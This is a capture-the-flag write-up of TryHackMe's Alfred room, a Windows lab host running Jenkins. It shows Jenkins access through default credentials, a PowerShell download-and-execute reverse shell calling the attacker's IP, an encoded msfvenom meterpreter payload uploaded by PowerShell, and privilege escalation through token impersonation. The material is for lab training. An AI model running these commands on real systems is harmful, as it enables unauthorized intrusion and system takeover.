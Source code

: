 ```yaml
---
title: "TryHackMe - Alfred"
author: Nasrallah
description: ""
date: 2022-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy, jenkins, powershell, metasploit, msfvenom, meterpreter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Alfred](https://tryhackme.com/room/alfred) from [TryHackMe](https://tryhackme.com). Easy windows machine running Jenkins in a webserver. We use some known credentials to login to Jenkins and run some command that would give us a reverse shell. After that we generate a payload using msfvenom and upload it to the target to get a meterpreter shell that would make it easy to escalate our privileges on the machine.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.209.108
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
|_ssl-date: 2022-06-03T08:50:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-06-02T08:38:17
|_Not valid after:  2022-12-02T08:38:17
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We got 3 ports open, webserver on port 80, probably rdp on port 3389, and another webserver on port 8080.

## Web

Let's go to the webserver on port 80.

![](/assets/img/tryhackme/alfred/1.png)

There is a picture of Bruce Wayne and some text, nothing really interesting.

Let's go to port 8080.

![](/assets/img/tryhackme/alfred/2.png)

It's Jenkins login page. If we some of the most used credentials, we'll be able to login successfully.

![](/assets/img/tryhackme/alfred/3.png)



# **Foothold**

We need to find a place where we can execute command. To do that, go to `project`.

![](/assets/img/tryhackme/alfred/4.png)

Now go to `configure`.

![](/assets/img/tryhackme/alfred/5.png)

Great! We found a place to execute windows batch commands. Time for a reverse shell.

First, we need to download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and serve it with a webserver, we can use python for that: `sudo python3 -m http.server 80`.

After that, we need to set up a listener to receive the shell: `nc -lvnp 9001`

![](/assets/img/tryhackme/alfred/6.png)

Now we need to put the following powershell command in place and run it.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.31.131:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.31.131 -Port 9001
```

>Change the ip addresses to yours(tun0)

![](/assets/img/tryhackme/alfred/21.png)


After entering the command, press `save`. Then go to `Build now`

![](/assets/img/tryhackme/alfred/20.png)

Now if we go to our listener, we should see that we have received a shell.

![](/assets/img/tryhackme/alfred/7.png)


# **Privilege Escalation**

For this part, we can upgrade our shell to meterpreter in order to easily escalate our privileges.

First, let's create a payload using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.31.131 LPORT=1234 -f exe -o shell.exe
```

>Don't forget to change the ip address.

![](/assets/img/tryhackme/alfred/8.png)

Good, let's fire up metasploit and setup a handler listener.

![](/assets/img/tryhackme/alfred/9.png)

We need to set the options to the same ones we used when we created the payload with `msfvenom`

Great! Now in the same directory where we created the exploit, set up an http server like the one we did before:`sudo python3 -m http.server 80` so that we can upload it to the target.

After that we need to execute the following powershell command in the shell we just got to upload the exploit.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.31.131/shell.exe','shell.exe')"
```

![](/assets/img/tryhackme/alfred/23.png)

Great! We have uploaded the exploit successfully, now execute it with the command `Start-Process "shell.exe"`

![](/assets/img/tryhackme/alfred/10.png)

Now if we go to our listener on metasploit, we can see that we received a meterpreter shell.

![](/assets/img/tryhackme/alfred/11.png)

Now to have system privileges, which is the higher ranking in a windows machine, we execute the command `getsystem`.

![](/assets/img/tryhackme/alfred/12.png)

And we got it, but we need to understand how that worked. To do that, first drop a shell using the command `shell`, and then execute `whoami /priv`

> Do that as the user alfred not authority\system.

![](/assets/img/tryhackme/alfred/13.png)

With that command, we can see the different tokens we have. One of the tokens we have is `SeImpersonatePrivilege`. To abuse that, let's load a module named `incognito` and run the command `impersonate_token "BUILTIN\Administrators"`

![](/assets/img/tryhackme/alfred/14.png)

We got system privileges. Now let's go to the directory where the flag is and read it.

![](/assets/img/tryhackme/alfred/15.png)

We can't, even though we have the higher privileged token. To solve that, we need to change the process we currently in to a process that has system privilege.

First, list the processes with `ps`.

![](/assets/img/tryhackme/alfred/16.png)

We choose the **services** process, now use the command `migrate` with the process number of **services**.

![](/assets/img/tryhackme/alfred/17.png)

And we that, we have successfully rooted **Alfred**.
---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1